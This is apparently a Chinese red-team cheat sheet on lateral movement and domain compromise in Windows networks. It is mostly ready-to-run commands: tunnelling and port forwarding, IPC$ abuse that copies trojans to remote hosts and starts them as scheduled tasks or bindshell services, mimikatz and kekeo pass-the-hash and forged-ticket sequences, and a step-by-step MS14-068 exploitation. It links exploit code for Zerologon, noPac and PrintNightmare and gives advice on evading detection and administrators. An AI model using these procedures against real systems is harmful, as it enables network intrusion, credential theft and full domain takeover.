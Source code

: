 横向移动
================================

什么是内网横向攻击
--------------------------------
当通过外部打点进入到目标内网时，需要利用现有的资源尝试获取更多的凭证与权限，进而达到控制整个内网、拥有最高权限、发动 APT （高级持续性威胁攻击）等目地。
在攻防演练中，攻击方需要在有限的时间内近可能的获取更多的权限，因此必须具备高效的横向攻击思路。本次对内网横向攻击的技巧和方法进行总结。

注意事项
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 权限丢失
	webshell被发现，网站关站，木马后门被发现，主机改为不出网环境等。当遇到这些问题，需要做好应对措施，多方位的做好权限维持。
- 内网防火墙与杀毒软件
	内网防火墙，内网态势感知，内网流量监控，ids，ips等安全设备都会给横向攻击的开展造成很大的麻烦，应对措施有，对传输流量进行加密，修改cs流量特征，禁止大规模内网探测扫描等等。
- 内网蜜罐主机，蜜罐系统
	近年来攻防演练越来越多的防守方启用蜜罐主机，蜜罐系统，一旦蜜罐捕捉到攻击行为，并及时发现和处置，会导致权限丢失，前功尽弃。
- 运维管理人员
	内网横向攻击尽可能与运维管理人员的工作时间错开，尽量避免长时间登录administrator用户，如激活guest用户登录。降低被发现的几率。

windwos内网横穿
--------------------------------

常见端口
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 445
	- MS17-010，永恒之蓝
	- 远程本地认证：``net use \\192.168.1.2 /user:a\username password``
	- 其中a为域或工作组下的机器命名
+ 137/138/139
	- NetBios端口，137，138为UDP端口，用于内网传输文件
	- NetBios/SMB服务获取通过139端口
+ 135
	- 使用DCOM和RPC服务，用于WMI管理工具的远程操作
+ 53
	- DNS域传送漏洞
	- DNS协议隐秘传输
+ 389
	- LDAP
+ 88
	- Kerberos服务，监听KDC的票据请求，用户黄金票据和白银票据的伪造
+ 5985
	WinRM服务

端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ nc
	- 端口扫描
		+ 默认TCP：``nc -z -v -n 172.31.100.7 21-25``
	- 端口转发
		+ 将本地9000端口数据转发到192.168.100.2/8000：``mkfifo tmp/fifo|cat /tmp/fifo | nc 192.168.100.2 8000 | nc -l 9000 > /tmp/fifo`` 
		+ 访问：``nc -n 192.168.1.102 9000`` 
+ socat
	- 显示本地文件
		+ ``socat - /etc/sysctl.conf`` 
	- 监听本地端口
		+ ``socat TCP-LISTEN:12345 -`` 
	- UNIX DOMAIN域套接字转成TCP SOCKET
		+ ``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
	- 端口转发
		+ ``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
		+ ``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
		+ ``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
		+ ``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
+ netsh
	- 前提：IP Helper服务必须启动；管理员权限；
	- 查看已存在端口转发：``netsh interface portproxy show all``
	- 增加监听8888端口转发到3389端口：``netsh interface portproxy add v4tov4 listenport=8888 listenaddress=0.0.0.0 connectaddress=0.0.0.0 connectport=3389``
	- 删除转发端口：``netsh interface portproxy del v4tov4 listenport=8888 listenaddress=0.0.0.0``
	- 删除所有转发端口：``netsh interface portproxy reset``
+ portfwd
	- MSF自带工具
	- 将192.168.100.4的8888端口，映射到当前主机的8899端口
	- ``portfwd add -l 8899 -r 192.168.100.4 -p 8888``
+ proxychains
	- 修改配置/etc/proxychains.conf
		::
		
			[ProxyList]
			socks5 172.20.0.59 7222
	- 直接在程序前增加proxychains
	- ``sudo proxychains apt-get update``
	- 注意：socks代理不支持UDP协议，不支持icmp/ping协议，nmap使用受限。
+ frp
	- 官网下载：https://github.com/fatedier/frp/releases
	- 示例
		::
		
			跳板机（假设IP为172.20.0.59/192.168.100.3双网卡）上frps.ini配置：
			[common]
			bind_port = 7111
			
			执行命令：frps.exe -c frps.ini
			
			目标机器（假设IP为192.168.100.4/128.0.0.2双网卡）上frpc.ini配置：
			[common]
			server_addr = 192.168.100.3
			server_port = 7111

			[plugin_1]
			type = tcp
			remote_port = 7222
			plugin = socks5
			
			执行命令：frpc.exe -c frpc.ini
			
			这样再kali里面设置proxychains代理/etc/proxychains.conf：
			[ProxyList]
			socks5 172.20.0.59 7222
			在172.20.0.1/24网段机器使用nmap直接对内网128网段进行扫描：
			proxychains nmap -sT -Pn -p- 128.0.0.1/24
	- 相关问题
		+ frpc客户端连接会提示 login to server failed: EOF
			::
			
				修改frpc.ini文件，在common节点，添加tls_enable = true
+ NPS【综合】
	- 一款轻量级、高性能、功能强大的内网穿透代理服务器。支持tcp、udp、socks5、http等几乎所有流量转发。
	- 访问内网网站、本地支付接口调试、ssh访问、远程桌面，内网dns解析、内网socks5代理等等，并带有功能强大的web管理端。
	- 项目地址：``https://github.com/ehang-io/nps``
	- 帮助文档：``https://ehang.io/nps/documents``
+ Goproxy 【综合】
	- Goproxy 是 golang 实现的高性能 http ,https ,websocket ,tcp ,socks5 代理服务器。
	- 项目地址：``https://github.com/snail007/goproxy``
	- 帮助文档：``https://snail007.host900.com/goproxy/manual/zh/#/``
+ Stowaway【多级】
	- Stowaway是一个利用go语言编写、专为渗透测试工作者制作的多级代理工具。
	- 项目地址：``https://github.com/ph4ntonn/Stowaway``
+ Neo-reGeorg【Webshell】
	- Neo-reGeorg 是一个旨在积极重构 reGeorg 的项目。
	- 项目地址：``https://github.com/L-codes/Neo-reGeorg``

IPC$共享利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 介绍：IPC$(Internet Process Connection)是共享”命名管道”的资源，它是为了让进程间通信而开放的命名管道，也就是两个进程之间可以利用它产生数据交互，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。
+ 利用条件
	- SMB协议（445端口）开启
	- NETBios（139端口）开启
	- 弱口令：暴力破解
+ 常用命令
	::
	
		#建立空连接
		net use \\127.0.0.1\ipc$ "" /user:""
		权限很低，基本没什么用，在Windows2003以后，空连接什么权限都没有；
		有些主机的 Administrator 管理员的密码为空，那么我们可以尝试连接；但是默认的服务器配置也会阻止空密码的连接。

		#建立完整的用户名，密码连接
		net use \\127.0.0.1\ipc$ "password" /user:"username"

		#删除IPC$连接
		net use \\127.0.0.1\ipc$ /del

		#映射路径  (将对方的c盘映射为自己的z盘，其他盘类推)
		net use z: \\127.0.0.1\c$ "密码" /user:"用户名"

		#访问/删除路径
		net use z: \\127.0.0.1\c$   #直接访问
		net use c: /del     #删除映射的c盘
		net use * /del      #删除全部,会有提示要求按y确认


		#域中相关命令
		net use\\去连接的IP地址\ipc$ "域成员密码"  /user:域名\域成员账号
		net use\\192.168.100.1\ipc$ "admin123.." /user:momaek.com\win2003

		dir \\momaek.com\c$

		copy test.exe \\momaek.com\c$

		net use \\192.168.100.1\ipc$ /del

		net share       #查看自己的共享
		net view \\IP   #查看target-IP的共享
		netstat -A IP   #获取target-IP的端口列表

		netstat -ano | findstr "port"  #查看端口号对应的PID
		tasklist | findstr "PID"       #查看进程号对应的程序

+ 利用方式
	- 构建连接: ``net use \\127.0.0.1\IPC$ "" /user:"admintitrators"``
	- 上传木马: ``copy test.exe \\127.0.0.1\admin$``
	- 查看时间: ``net time \\127.0.0.1``
	- 创建定时任务: ``at \\127.0.0.1 11:05 test.exe``
+ 其它
	- 查看文件: ``dir \\192.168.52.130\c$``
	- 盘符映射: ``net use k: \\192.168.52.130\c$ /u:"administrator" "123456"``
	- 查看进程: ``tasklist /S 192.168.52.130 /U administrator -P 123456``
	- 执行定时任务: ``at \\192.168.135.5 13:20:00 cmd.exe /c "c:\beacon.exe"``
	- 执行定时任务
		::
			
			schtasks /create /s 192.168.52.130 /u administrator /p 123456 /tn test_crow /tr c:/artifact.exe  /sc once /st 15:29
			schtasks /query /s 192.168.52.130 /u administrator /p 123456 /tn test_crow
			在目标主机上创建一个名为test_crow的计划任务，启动程序为c:/beacon.exe ，启动权限为system，启动时间为每隔一小时启动一次
			schtasks /create /s 192.168.52.130 /u administrator /p 123456 /tn test_crow /sc HOURLY /mo 1 /tr c:/test.exe /ru system /f
			其他启动时间参数：
			/sc onlogon  用户登录时启动
			/sc onstart  系统启动时启动
			/sc onidle   系统空闲时启动
			#删除任务计划
			schtasks /delete /s 192.168.52.130 /u administrator /p 123456 /tn test_crow 

域渗透
--------------------------------

域
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
域指将网络中多台计算机逻辑上组织到一起，进行集中管理的逻辑环境。域是组织与存储资源的核心管理单元，在域中，至少有一台域控制器，域控制器中保存着整个域的用户帐号和安全数据库。

+ Active Directory
	- 活动目录（AD）是面向Windows Server的目录服务。Active Directory存储了有关网络对象的信息，并且让管理员和用户能够查找和使用这些信息。

+ NTLM认证
	- NTLM是NT LAN Manager的缩写，NTLM是基于挑战/应答的身份验证协议，是 Windows NT 早期版本中的标准安全协议，基本流程为：
		::
		
			客户端在本地加密当前用户的密码成为密码散列
			客户端向服务器明文发送账号
			服务器端产生一个16位的随机数字发送给客户端，作为一个challenge
			客户端用加密后的密码散列来加密challenge，然后返回给服务器，作为response
			服务器端将用户名、challenge、response发送给域控制器
			域控制器用这个用户名在SAM密码管理库中找到这个用户的密码散列，然后使用这个密码散列来加密chellenge
			域控制器比较两次加密的challenge，如果一样那么认证成功，反之认证失败
+ kerboser认证
	- 见认证机制章中Kerberos一节。
+ PTH攻击
	- 利用LM或NTLM的值进行的渗透测试。
		::
		
			privilege::debug # 提升权限
			sekurlsa::logonpasswords # 抓取密码
			sekurlsa::pth /user:administrator /domain:192.168.3.32 /ntlm:518b98ad4178a53695dc997aa02d455c
	- 如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用mimikatz还是可以攻击成功。
	- 打KB2871997补丁前任意用户都可以连接，补丁后只能administrator用户才可以连接。
+ PTK攻击
	- 利用的 ekeys aes256 进行的渗透测试。
		::
		
			sekurlsa::ekeys
	- 利用条件：安装了KB2871997补丁；且系统禁用了NTLM的时候。
	- 攻击示例
		::
		
			privilege::debug # 提升权限
			sekurlsa::logonpasswords # 抓取密码
			sekurlsa::pth /user:域用户名 /domain:域名 /aes256:aes256值
			sekurlsa::pth /user:administrator /domain:god /aes256:1811e5811877a782b6c11e2b0165ffb88d40a633f922a012372095a43d72d7ae
			成功后会弹出一个新得cmd窗口，访问远程主机服务。
			net use \\192.168.3.32
			dir \\192.168.3.32\c$\
			copy 4444.exe \\192.168.3.32\c$\  # 上传木马到目标机器中
			sc \\192.168.3.32 create bindshell binpath= "c:\4444.exe" # 创建shell服务并绑定文件
			sc \\192.168.3.32 start bindshell # 启动bindshell服务
+ PTT攻击
	- 利用的票据凭证 TGT 进行的渗透测试，即利用Kerberos协议进行攻击的。
	- 三种常见的攻击：MS14-068、Golden Ticket、SILVER ticket，简单来说就是将连接合法的票据注入到内存中实现连接。缺点：票据是有效期的，一般默认为10小时。
	- 域控HASH伪造票据攻击
		+ 项目地址：``https://github.com/gentilkiwi/kekeo``
		+ 根据拿到的域控HASH，通过伪造票据进行连接
			::
			
				生成票据：
				shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7" "exit"
				将生成的票据文件导入内存：
				kekeo "kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "exit"
				查看导入的票据：klist
				连接域控：dir \\owa2010cn-god\c$
	- 缓存票据攻击
		+ 利用历史遗留的票据重新认证尝试，成功与否看当前主机有没有被目标主机连接过。
		+ 利用过程
			::
			
				tlist查看当前票据（假设存在域管用户留下的历史票据）
				导出票据文件：mimikatz sekurlsa::tickets /export
				再次将票据导入到内存：
				mimikatz kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi
				连接目标机器：
				net use \\owa2010cn-god\c$
				dir \\OWA2010CN-GOD\c$
	- 黄金票据攻击
		+ 根据kerberos认证协议，分析只要获取Krbtgt的NTLM哈希值，就可以伪造任意的 TGT 了。
		+ 前提：需要伪造的域管理员用户名，完整的域名，域 SID，krbtgt 的 NTLM 哈希值
		+ 利用过程
			::
			
				kerberos::golden /user:administrator /domain:whoamianony.org /sid:S-1-5-21-1315137663-3706837544-1429009142 /krbtgt:6be58bfcc0a164af2408d1d3bd313c2a /ticket:ticket.kirbi
				即：kerberos::golden /user:需要伪造的域管理员用户名 /domain:域名 /sid:域sid /krbtgt: krbtgt用户的Hash /ticket:ticket.kirbi
				票据导入内存：kerberos::ptt ticket.kirbi
				访问域控：dir \\DC\c$
	- 白银票据攻击
		+ 伪造 TGS，通过已知的授权服务密码生成一张可以访问该服务的 TGT。
		+ 前提：域名,域 SID,目标服务器的 FQDN,可利用的服务,服务账号的 NTLM 哈希值,要伪造的用户名 
		+ 利用过程
			::
			
				kerberos::golden /domain:whoamianony.org /sid:S-1-5-21-1315137663-3706837544-1429009142 /target:DC.whoamianony.org /rc4:6decb5d75eb5727d8535e67680b52571 /service:cifs /user:administrastor /ptt
				kerberos::golden /domain:域名 /sid:域 SID /target:FQDN /rc4:server 机器的哈希 /service:可利用的服务 /user:要伪造的用户名 /ptt
				直接访问域控：
				dir \\DC.whoamianony.org\c$

判断是否有域
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ systeminfo
	- ``systeminfo | findstr 域:``
	- ``此方法获取到域名信息``
+ net time方法
	::

		1.存在域，但当前用户不是域用户，提示说明权限不够
			C:\Users>bypass>net time /domain
			发生系统错误 5 
			拒绝访问。

		2.存在域，并且当前用户是域用户
			C:\Users\Administrator>net time /domain
			\\dc.test.com 的当前时间是 2020/10/23 21:18:37
			
			命令成功完成。
		注：dc即域控主机的计算机名。

		3.当前网络环境为工作组，不存在域
			C:\Users\Administrator>net time /domain
			找不到域 WORKGROUP 的域控制器。

搜集域信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ meterpreter：``run post/windows/gather/enum_domain``
+ NSE脚本
	- smb-enum-domains.nse:对域控制器进行信息收集，可以获取主机信息、用户、可使用密码策略的用户等
	- smb-enum-users.nse:在进行域渗透时，如获取了域内某台主机权限，但权限有限，无法获取更多的域用户信息，可借助此脚本对域控制器进行扫描
	- smb-enum-shares.nse:遍历远程主机的共享目录
	- smb-enum-processes.nse:对主机的系统进程进行遍历，通过此信息，可知道目标主机运行着哪些软件
	- smb-enum-sessions.nse:获取域内主机的用户登陆会话，查看当前是否有用户登陆，且不需要管理员权限
	- smb-os-discovery.nse:收集目标主机的操作系统、计算机名、域名、域林名称、NetBIOS机器名、NetBIOS域名、工作组、系统时间等信息
+ 查看域
	- 查看域名列表：``net view /domain``
	- 查看域test主机列表：``net view /domain:test``
	- 注：computer browser服务未启动，net view命令报6118错误。
+ 查看域内用户组列表：``net group /domain``
+ 查看域内用户组信息：``net group "Enterprise Admins" /domain``
+ 查看域密码策略信息：``net accounts /domain``
+ 查看域信任信息：``nltest /domain_trusts``

域控主机IP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ipconfig查看dns服务器地址
+ nslookup 域名
+ ping 域名

搜集域用户和管理员信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 当前当前主机当前登录的域和用户：``net config workstation``
+ 查询域用户列表：``net user /domain``
+ 查询域用户详细信息：``wmic useraccount get /all``

查找域控制器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 查看域控制器主机名
	- ``nltest /DCLIST:teamssix``
	- ``nslookup -type=SRV _ldap._tcp``
	- ``netdom query pdc``
	- ``nbtstat -A 127.0.0.1``
+ 查看域控制器组：``net group "domain controllers" /domain``
+ 定位域管理员
	- PsLoggedOn：``https://docs.microsoft.com/en-us/sysinternals/downloads/psloggedon``
	- PowerView
		+ Recon目录下：``https://github.com/PowerShellMafia/PowerSploit/``
		+ 打开powershell命令行
		+ 执行 ``Import-Module PowerView.ps1``
		+ 执行 ``Invoke-UserHunter``
		+ 主要模块
			::
			
				Get-NetDomain:获取当前用户所在域名称
				Get-NetUser：获取所有用户的详细信息
				Get-NetDomainController：获取所有域控制器的信息
				Get-NetComputer：获取域内所有机器的详细信息
				Get-NetOU：获取域中的OU信息
				Get-NetGroup：获取所有域内组和组成员信息
				Get-NetFileServer：根据SPN获取当前域使用的文件服务器信息
				Get-NetShare：获取当前域内所有的网络共享信息
				Get-NetSession：获取指定服务器的会话
				Get-NetRDPSession：获取指定服务器的远程连接
				Get-NetProcess：获取远程主机的进程
				Get-UserEvent：获取指定用户的日志
				Get-ADObject：获取活动目录的对象
				Get-NetGPO：获取域内所有组的策略对象
				Get-DomainPolicy：获取域默认策略或域控制器策略
				Invoke-UserHunter：获取域用户登陆的计算机信息及该用户是否有本地管理员权限
				Invoke-ProcessHunter：通过查询域内所有的机器进程找到特定用户
				Invoke-UserEventHunter：根据用户日志查询某域用户登陆过哪些域机器
	- ADFindUsersLoggedOn
		+ ``https://github.com/chrisdee/Tools/tree/master/AD/ADFindUsersLoggedOn``
		+ ``PVEFindADUser.exe -current``

获取域用户hash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ :ref:`auth/windows:Kerberos认证过程`

相关漏洞
--------------------------------

可直接拿域控
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ms17-010(CVE-2017-0143)：永恒之蓝
+ MS14-068(CVE-2014-6324)
	- Kerberos 校验和漏洞：用户在向 Kerberos 密钥分发中心（KDC）申请TGT（由票据授权服务产生的身份凭证）时，可以伪造自己的 Kerberos 票据
	- 利用条件
		+ 小于2012R2的域控，没有打MS14-068的补丁(KB3011780)
		+ 拿下一台加入域的计算机
		+ 有这台域内计算机的域用户密码和Sid
	- 利用效果：将任意域用户提升到域管权限
	- 相关EXP
		+ https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
	- 利用过程
		::
		
			先获取当前机器SID
			whoami/user
			-u指定当前用户，-s 即SID，-p 当前用户密码，-d 域控主机ip
			shell ms14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 -d 192.168.3.21 -p admin!@#45
			执行该命令后可以看到当前目录生成了一个票据文件。
			首先清除下票据：klist purge
			使用mimikatz导入票据，TGT_webadmin@god.org.ccache即生成的票据文件。
			mimikatz kerberos::ptc TGT_webadmin@god.org.ccache
			连接域控主机，上线木马。
			net use \\OWA2010CN-GOD\c$
			copy 4444.exe \\OWA2010CN-GOD\c$
			sc \\OWA2010CN-GOD create binshel1 binpath= "c:\4444.exe"
			sc \\OWA2010-GOD start binshel1
+ CVE-2020-1472
	- 可将域控机器用户的password设置为空
	- 利用效果：可利用此漏洞获取域管访问权限
	- 影响版本
		::
		
			Windows Server 2008 R2 for x64-based Systems Service Pack 1
			Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
			Windows Server 2012Windows Server 2012 (Server Core installation)
			Windows Server 2012 R2Windows Server 2012 R2 (Server Core installation)
			Windows Server 2016Windows Server 2016 (Server Core installation)
			Windows Server 2019Windows Server 2019 (Server Core installation)
			Windows Server, version 1903 (Server Core installation)
			Windows Server, version 1909 (Server Core installation)Windows Server, version 2004 (Server Core installation)
	- 风险：导致目标主机脱域
	- 相关EXP
		+ Impacket工具包：https://github.com/SecureAuthCorp/impacket.git
		+ 检查是否存在漏洞：https://github.com/SecuraBV/CVE-2020-1472.git
		+ exp：https://github.com/dirkjanm/CVE-2020-1472
		+ exp：https://github.com/risksense/zerologon
		+ https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472
+ CVE-2021-42287&42278
	- AD域计算机账户认证漏洞：攻击者可利用该漏洞造成将域内的普通用户权限提升到域管理员权限
	- 利用效果：将任意域用户提升到域管权限
	- 影响版本
		::
		
			Windows Server 2012 R2 (Server Core installation)
			Windows Server 2012 R2
			Windows Server 2012 (Server Core installation)
			Windows Server 2012
			Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
			Windows Server 2008 R2 for x64-based Systems Service Pack 1
			Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
			Windows Server 2008 for x64-based Systems Service Pack 2
			Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
			Windows Server 2008 for 32-bit Systems Service Pack 2
			Windows Server 2016 (Server Core installation)
			Windows Server 2016
			Windows Server, version 20H2 (Server Core Installation)
			Windows Server, version 2004 (Server Core installation)
			Windows Server 2022 (Server Core installation)
			Windows Server 2022
			Windows Server 2019 (Server Core installation)
			Windows Server 2019
	- 利用条件
		+ 一个普通域成员帐户
		+ 域用户有创建机器用户的权限（一般默认权限）
		+ DC未打补丁KB5008380或KB5008602
	- 相关EXP
		+ https://github.com/WazeHell/sam-the-admin
		+ https://github.com/cube0x0/noPac
+ CVE-2021-1675/CVE-2021-34527
	- Windows Print Spooler权限提升漏洞
	- 利用效果：未经身份验证的远程攻击者可利用该漏洞以SYSTEM权限在域控制器上执行任意代码，从而获得整个域的控制权
	- 影响版本
		::
		
			Windows Server 2012 R2 (Server Core installation)
			Windows Server 2012 R2
			Windows Server 2012 (Server Core installation)
			Windows Server 2012
			Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
			Windows Server 2008 R2 for x64-based Systems Service Pack 1
			Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
			Windows Server 2008 for x64-based Systems Service Pack 2
			Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
			Windows Server 2008 for 32-bit Systems Service Pack 2
			Windows RT 8.1
			Windows 8.1 for x64-based systems
			Windows 8.1 for 32-bit systems
			Windows 7 for x64-based Systems Service Pack 1
			Windows 7 for 32-bit Systems Service Pack 1
			Windows Server 2016 (Server Core installation)
			Windows Server 2016
			Windows 10 Version 1607 for x64-based Systems
			Windows 10 Version 1607 for 32-bit Systems
			Windows 10 for x64-based Systems
			Windows 10 for 32-bit Systems
			Windows Server, version 20H2 (Server Core Installation)
			Windows 10 Version 20H2 for ARM64-based Systems
			Windows 10 Version 20H2 for 32-bit Systems
			Windows 10 Version 20H2 for x64-based Systems
			Windows Server, version 2004 (Server Core installation)
			Windows 10 Version 2004 for x64-based Systems
			Windows 10 Version 2004 for ARM64-based Systems
			Windows 10 Version 2004 for 32-bit Systems
			Windows 10 Version 21H1 for 32-bit Systems
			Windows 10 Version 21H1 for ARM64-based Systems
			Windows 10 Version 21H1 for x64-based Systems
			Windows 10 Version 1909 for ARM64-based Systems
			Windows 10 Version 1909 for x64-based Systems
			Windows 10 Version 1909 for 32-bit Systems
			Windows Server 2019 (Server Core installation)
			Windows Server 2019
			Windows 10 Version 1809 for ARM64-based Systems
			Windows 10 Version 1809 for x64-based Systems
			Windows 10 Version 1809 for 32-bit Systems
	- 利用条件
		+ 目标开启Spooler服务；
		+ 一个普通权限的域账户；
		+ 创建的smb服务允许匿名访问，即目标可以直接获取到文件。
	- 相关EXP
		+ https://github.com/cube0x0/CVE-2021-1675
		+ https://github.com/calebstewart/CVE-2021-1675
		+ https://github.com/numanturle/PrintNightmare
+ CVE-2019-1040
	- Microsoft Windows NTLM认证漏洞
	- 利用效果：攻击者在仅有一个普通域账号的情况下可以远程控制 Windows 域内的任何机器，包括域控服务器。
	- 影响版本
		::
			
			Windows 7 sp1 至Windows 10 1903
			Windows Server 2008 至Windows Server 2019
	- 利用条件
		+ Exchange服务器可以是任何版本。唯一的要求是，在以共享权限或RBAC模式安装，Exchange默认具有高权限。
		+ 域内任意账户。
		+ CVE-2019-1040漏洞的实质是NTLM数据包完整性校验存在缺陷，故可以修改NTLM身份验证数据包而不会使身份验证失效。而此攻击链中攻击者删除了数据包中阻止从SMB转发到LDAP的标志。
		+ 构造请求使Exchange Server向攻击者进行身份验证，并通过LDAP将该身份验证中继到域控制器，即可使用中继受害者的权限在Active Directory中执行操作。比如为攻击者帐户授予DCSync权限。
		+ 如果在可信但完全不同的AD林中有用户，同样可以在域中执行完全相同的攻击。
	- 攻击链
		+ 使用域内任意帐户，通过SMB连接到被攻击ExchangeServer，并指定中继攻击服务器。同时必须利用SpoolService错误触发反向SMB链接。
		+ 中继服务器通过SMB回连攻击者主机，然后利用ntlmrelayx将利用CVE-2019-1040漏洞修改NTLM身份验证数据后的SMB请求据包中继到LDAP。
		+ 使用中继的LDAP身份验证，此时Exchange Server可以为攻击者帐户授予DCSync权限。
		+ 攻击者帐户使用DCSync转储AD域中的所有域用户密码哈希值（包含域管理员的hash，此时已拿下整个域）。
	- 利用方式
		+ https://github.com/Ridter/CVE-2019-1040
		+ https://github.com/SecureAuthCorp/impacket
		+ https://github.com/dirkjanm/krbrelayx
		+ https://github.com/Ridter/CVE-2019-1040
		+ https://github.com/Ridter/CVE-2019-1040-dcpwn
	- 参考资料
		+ 同一网段内：https://www.freebuf.com/vuls/274091.html
		+ 隧道下：https://zhuanlan.zhihu.com/p/142080911
+ 域委派攻击
	- https://mp.weixin.qq.com/s/GdmnlsKJJXhElA4GuwxTKQ
+ NTLM Relay
	- https://www.anquanke.com/post/id/193149
	- https://www.anquanke.com/post/id/193493
	- https://www.anquanke.com/post/id/194069
	- https://www.anquanke.com/post/id/194514
+ ADCS漏洞–ESC8(PetitPotam)(ADCS relay)
	- ESC8是一个http的ntlm relay，原因在于ADCS的认证中支持NTLM认证
	- 攻击效果：将普通域用户提升到域管权限
	- 利用条件
		+ 未打adcs的补丁
		+ 有两台域控
		+ 有adcs服务
	- 利用方式
		+ https://blog.csdn.net/qq_43645782/article/details/119322322
		+ https://forum.butian.net/share/1583
+ ADCS漏洞–CVE-2022–26923
